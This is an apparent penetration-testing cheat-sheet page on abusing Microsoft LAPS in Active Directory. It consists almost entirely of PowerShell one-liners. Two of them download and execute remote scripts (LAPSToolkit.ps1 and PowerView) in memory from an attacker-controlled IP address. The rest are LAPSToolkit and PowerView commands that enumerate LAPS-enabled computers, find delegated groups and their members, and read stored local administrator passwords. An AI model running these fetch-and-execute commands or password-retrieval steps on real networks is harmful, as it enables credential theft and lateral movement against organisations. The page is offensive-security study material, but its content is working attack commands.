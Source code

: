 # LAPS

## LAPS

### LAPSToolKit Usage

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Locate computers

```csharp
Get-LAPSComputers
```

![](<../../../../.gitbook/assets/image (148).png>)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](<../../../../.gitbook/assets/image (281).png>)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](<../../../../.gitbook/assets/image (25).png>)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](<../../../../.gitbook/assets/image (249) (1).png>)

### Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}
